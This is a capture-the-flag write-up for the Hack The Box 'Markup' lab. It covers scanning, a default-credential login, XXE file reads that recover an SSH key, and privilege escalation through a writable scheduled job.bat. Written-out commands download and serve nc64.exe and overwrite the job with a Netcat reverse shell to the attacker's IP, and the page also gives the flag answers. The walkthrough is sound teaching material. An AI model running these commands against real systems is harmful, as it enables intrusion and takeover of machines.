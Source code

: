 # Markup (Tier 2)

## <mark style="color:blue;">Description</mark>

* **Tier&#x20;**<mark style="color:green;">**->**</mark> 2
* **Difficult** <mark style="color:green;">**->**</mark> Very Easy
* **OS** <mark style="color:green;">**->**</mark> Windows
* **Tags&#x20;**<mark style="color:green;">**->**</mark> Apache / SSH / PHP / Reconnaissance / Scheduled Job Abuse / Weak Credentials\
  &#x20;              / Arbitrary File Upload / XXE Injection / Weak Permissions

<figure><img src="../../.gitbook/assets/image (719).png" alt=""><figcaption><p><a href="https://app.hackthebox.com/starting-point?tier=1">https://app.hackthebox.com/starting-point?tier=2</a></p></figcaption></figure>

## <mark style="color:blue;">Write-up</mark>

* I started doing an initial scan with [_Nmap_](../../networks/tools-and-utilities.md#nmap)

<pre class="language-bash" data-line-numbers><code class="lang-bash"><strong>nmap 10.129.136.233 -p- -Pn --min-rate 2500 -oN scan.txt
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>

***

* Then to learn more about the services running on the open ports found, I did an exhaustive scan

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>nmap 10.129.136.233 -p22,80,443 -sVC -oN serv_scan.txt
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (114).png" alt=""><figcaption><p>snippet</p></figcaption></figure>

***

* With this, I answered the first question

<figure><img src="../../.gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>

> Answer: _**2.4.41**_

***

* I found the HTTP service running on port 80, so I went to the browser to explore the content and found a login page. I tried logging in with common credentials, and fortunately, using the combination of username _admin_ and password _password,_ I got in successfully to a new dashboard

<figure><img src="../../.gitbook/assets/image (115).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (116).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn more about the HTTP protocol, you can go [here](../../networks/protocols/http/)
{% endhint %}

***

* With this, I answered the next question

<figure><img src="../../.gitbook/assets/image (117).png" alt=""><figcaption></figcaption></figure>

> Answer: _**admin:password**_

***

* Then I explored the tabs of the website, where in the _Contact_ tab I found an email and a form for submission. Unfortunately, the form didn't work, so we went to the Order tab, which also had a form. After filling out that one and clicking on the _Submit_ button, it worked, giving me a pop-up informing the request had been sent&#x20;

<figure><img src="../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>

***

* So to check how the request was being sent, I used [_FoxyProxy_](../../web-exploitation/tools-and-utilities.md#foxyproxy) and [_Burp Suite_](../../web-exploitation/tools-and-utilities.md#burp-suite) to intercept the request. I noticed a session cookie from _PHP,_ and what caught my attention was the fact that the site was sending the information using _XML_

<figure><img src="../../.gitbook/assets/image (124).png" alt=""><figcaption></figcaption></figure>

***

* With this and a little research, I answered the next questions

<figure><img src="../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

> Answer: _**order**_

***

<figure><img src="../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

> Answer: _**1.0**_

***

<figure><img src="../../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>

> Answer: _**XML External Entity**_

***

* To retrieve more information about this section, I checked the source code, finding a commentary from one of the developers with his name, which could be a user of the system. So, as I didn't find anything else interesting, I could use this information to modify the _XML_ of the petition

<figure><img src="../../.gitbook/assets/image (129).png" alt=""><figcaption><p>snippet</p></figcaption></figure>

***

* With this, I answered the next question

<figure><img src="../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

> Answer: _**Daniel**_

***

* I tried making a test for a possible XEE Injection, and it worked successfully, being able to retrieve the content of the _/etc/hosts_ Windows file. With this and the previous information found, I tried accessing the Desktop folder for the user _Daniel_ and reading the _user.txt_ file, which usually contains the user flag, and it worked

<figure><img src="../../.gitbook/assets/image (132).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn more about XXE Injection, you can go [here](../../web-exploitation/broken-access-control/command-injection-1.md).
{% endhint %}

***

* So, I continued retrieving possible files that could help to gain access to the system as one of the users. Checking for configurations of the SSH protocol for _Daniel_, I found a file with the default name _id\_rsa,_ being this the private key for the user. So I used this to connect through SSH to the system as the Daniel user, and it worked

{% code overflow="wrap" lineNumbers="true" %}
```bash
ssh Daniel@10.129.136.233 -i ssh_key
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn more about the SSH protocol, you can go [here](../../networks/protocols/ssh.md)
{% endhint %}

***

* Once inside, I tried accessing a PowerShell and the system let me do it without any issue. Then I checked for the privileges of the user but didn't find anything relevant, so I continued exploring the system for a possible way to escalate privileges

<figure><img src="../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

***

* Exploring the root folder _C:\\_ I found a particular folder named _Log-Management,_ which is not a standard system file for _Windows_. So I accessed it and listed its content, finding a _job.bat_ file, and checking that, I saw it was a script that seemed to be a programmed task that was interacting with an executable named _wevtutil.exe_. Also, the script said that it could only be run with administrator permissions, letting us know it was being called with privileges&#x20;

<figure><img src="../../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>

***

* With this and the previously found user flag, I answered the next questions

<figure><img src="../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

> Answer: _**job.bat**_

***

<figure><img src="../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

> Answer: _**wevtutil.exe**_

***

<figure><img src="../../.gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

> Answer: _**032d2fc8952a8c24e39c8f0ee9918ef7**_

***

* So I [searched](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/wevtutil) about the functioning of this program, understanding that it was being called through the job to erase the logs of the system every so often. With this, I could check if the service was still running on the system and which permission it had, maybe letting us modify its content. So I checked, noticing it has full-control permissions for all the local users. Then I checked the current system processes and found the system was still using the program

{% code overflow="wrap" lineNumbers="true" %}
```powershell
icacls job.bat
ps
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (166).png" alt=""><figcaption><p>snippet</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (167).png" alt=""><figcaption><p>snippet</p></figcaption></figure>



***

* Knowing this, I could modify the content to possibly execute arbitrary programs or commands. So I tried using this to gain a Reverse Shell using a _Netcat_ executable, first downloading the corresponding file to our machine and importing it to the target machine

{% code overflow="wrap" lineNumbers="true" %}
```powershell
# In our machine
wget https://github.com/int0x33/nc.exe/blob/master/nc64.exe #Get NC executable
python3 -m http.server 1234 # In the folder where we have the executable

# In the target machine
wget http://10.10.14.117:1234/nc64.exe -outfile nc64.exe
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (168).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn the details about the abuse of _.bat_ files for privilege escalation, you can go [here](../../penetration-testing/process-stages/post-exploitation/privilege-escalation/windows-privilege-escalation.md#abusing-.bat-files-with-full-control-permissions)
{% endhint %}

***

* Then I set up a listener on my machine to receive the connection and pass the payload to the job file to execute _Netcat_. The PowerShell gave me an error, so I tried closing it and doing it from the _CMD_, this time working properly, and checked the content of the file had been modified successfully. Then I waited for the script to be executed by the system, and after a while, the listener caught the shell as the _Administrator_ user

{% code overflow="wrap" lineNumbers="true" %}
```powershell
# In our machine
nc -nvlp 4444

# In the target machine
echo C:\Log-Management\nc64.exe -e cmd.exe 10.10.14.117 4444 > C:\Log-Management\job.bat
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (716).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (717).png" alt=""><figcaption></figcaption></figure>

***

* Finally, I went to the Desktop folder of the _Administrator_ user, listing its content and noticing a _root.txt_ file, and reading its contents, I obtained the root flag

<figure><img src="../../.gitbook/assets/image (718).png" alt=""><figcaption></figcaption></figure>

***

* With this, I got the root flag and pwned the machine

<figure><img src="../../.gitbook/assets/image (245) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**f574a3e7650cebd8c39784299cb570f8**_
